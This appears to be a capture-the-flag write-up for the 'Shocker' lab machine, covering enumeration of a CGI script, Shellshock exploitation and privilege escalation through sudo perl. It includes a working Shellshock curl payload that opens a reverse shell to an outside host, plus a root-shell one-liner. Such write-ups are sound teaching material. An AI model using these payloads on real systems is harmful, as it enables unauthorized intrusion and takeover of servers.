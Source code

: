 # Shocker

# Enumeration

## Nmap

I start off with a simple nmap of the system. Looks like the system is running an Apache server over port 80 and OpenSSH over port 2222.

```bash
nmap -sC -sV shocker.htb > nmap.txt
```

![Untitled](POC/nmap.png)

## Website

### Page

Visiting the webpage I see a simple image of a bug saying “Don’t Bug Me!”

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%201.png)

Checking the source doesnt reveal any further information as well.

```html
<!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>
<img src="bug.jpg" alt="bug" style="width:450px;height:350px;">

</body>
</html>
```

### Dirb

Since I can’t find any giveaways on the page itself, I’ll run dirb to brute force some possible directories. I find a directory by the name of `cgi-bin/` which seems interesting to me, I should google this directory name and see if I can find any vulnerabilities.

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%202.png)

After doing some research, it seems that cgi-bin is a directory containing CGI scripts which can be used to call out to applications hosted on the server. 

After a bit more digging, it seems that CGI scripts are typically shell, cgi, or perl scripts. I will run dirb again against the cgi-bin directory, this time searching for shell scripts. This reveals `/cgi-bin/user.sh`

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%203.png)

Traveling to the address prompts me to download the script, which I do. I’ll cat the file out to see what its contents are. The contents look like the results of the `uptime` command. So this is probably a script ruinning on the box.

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%204.png)

## Shellshock

One of the [results](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) I ran into while searching for `cgi-bin/` vulnerabilities was for the ShellShock vulnerability. From what I can find it was a Bash vulnerability found in 2014 allowing for command execution due to how environment variables were handles.

The POC shown in this article shows how Bash will take `x='() { :;};’` as a function, and then execute the commands that come after it. For example with the following input:

```bash
$ env x='() { :;}; echo vulnerable' bash -c "echo test"
```

The output would be:

```bash
vulnerable
test
```

If an Apache server has CGI enabled, this can be exploited. To test this, I send a request testing if the system is vulnerable to shellshock:

```bash
curl -H "User-agent: () { :;}; echo; echo vulnerable" http://shocker.htb:80/cgi-bin/user.sh
```

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%205.png)

Looks like we can leverage this exploit!

# Exploitation

## Shellshock Reverse Shell

I set up a netcat listener on port 1234 and send the following payload to receive a connection back.

```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.2/1234 0>&1" http://shocker.htb:80/cgi-bin/user.sh
```

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%206.png)

We’re in!

## User Flag

Running `whoami` we can see we are the user shelly, first I’ll navigate to the users home directory and grab the user flag.

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%207.png)

# Privelege Escalation

## Sudo Commands

The first thing I always do to check for possible privelege escalation vectors is running the `sudo -l` command because of how quick it is. In this case it looks like shelly is able to run perl as root, this will be easy!

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%208.png)

## Perl

Perl is a simple binary to use for priv esc, but I’ll usually check [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) to see how a binary can be exploited, as there is typically more than one way.

Because Perl is not complicated, I can just use the `-e` flag to run it directly from command line. I’ll then use the `exec` command to launching a new shell as root.

```bash
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

With my new shell launched, I run `whoami` once more to reveal that I am now root.

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%209.png)

## Root Flag

Now all that needs to be done is navigate to the root directory and grab the root flag!

![Untitled](Shocker%20e328b70ca7964b4abdf06a6b715b9edc/Untitled%2010.png)
